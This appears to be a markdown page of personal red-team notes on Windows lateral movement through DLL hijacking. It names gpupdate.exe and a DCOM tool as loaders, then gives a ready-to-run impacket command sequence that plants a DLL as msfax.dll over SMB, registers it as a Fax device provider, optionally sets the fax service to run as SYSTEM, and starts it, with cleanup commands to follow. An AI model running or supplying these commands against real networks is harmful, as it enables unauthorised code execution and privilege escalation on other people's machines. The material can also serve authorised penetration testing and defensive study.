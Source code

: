 ```yaml
---
title: Lateral Movement trough DLL Hijacking
---
```


[[notes/lateral-movement/index]] by writing a DLL into a location were a periodically running program will load it.

For example `gpupdate.exe` runs as `NT Authority\Network Service` and loads `C:\Windows\System32\edgegdi.dll` every 90 minutes ([source](http://web.archive.org/web/20220624214207/https://www.mdsec.co.uk/2020/10/i-live-to-move-it-windows-lateral-movement-part-3-dll-hijacking/)).

Untested tools:

- [DCOM DLL Hijacking](https://github.com/WKL-Sec/dcomhijack), upload DLL, trigger load trough DCOM

# Fax Service

First write your DLL to `C:\Windows\System32\msfax.dll`, e.g. over SMB.
On startup the payload must migrate into another process because the fax process dies after loading the DLL.
Then create the registry keys and start the service.

~~~ bash
impacket-services -k -no-pass ws01.corp.com status -name fax
impacket-services -k -no-pass ws01.corp.com stop -name fax
path='HKLM\Software\Microsoft\Fax\Device Providers\{fdd90a36-8160-49b5-af34-3843e4c06417}'
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path"
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path" -v FriendlyName -vt REG_SZ -vd 'Microsoft Fax Provider'
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path" -v ProviderName -vt REG_SZ -vd MicrosoftFaxProvider
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path" -v ImageName -vt REG_EXPAND_SZ -vd 'C:\Windows\System32\msfax.dll'
impacket-reg -k -no-pass ws01.corp.com add -keyName "$path" -v APIVersion -vt REG_DWORD -vd 65536
impacket-services -k -no-pass ws01.corp.com change -name fax -start-name 'NT Authority\System'  # optional
impacket-services -k -no-pass ws01.corp.com start -name fax
~~~

Cleanup.

~~~ bash
impacket-services -k -no-pass ws01.corp.com stop -name fax
impacket-services -k -no-pass ws01.corp.com change -name fax -start-name 'NT Authority\NetworkService'
impacket-reg -k -no-pass ws01.corp.com delete -keyName "$path" -va
~~~

References:

- [TROOPERS22: Unorthodox Lateral Movement: Stepping Away from the Standard Tradecraft](https://www.youtube.com/watch?v=z3kUwvunBIo)
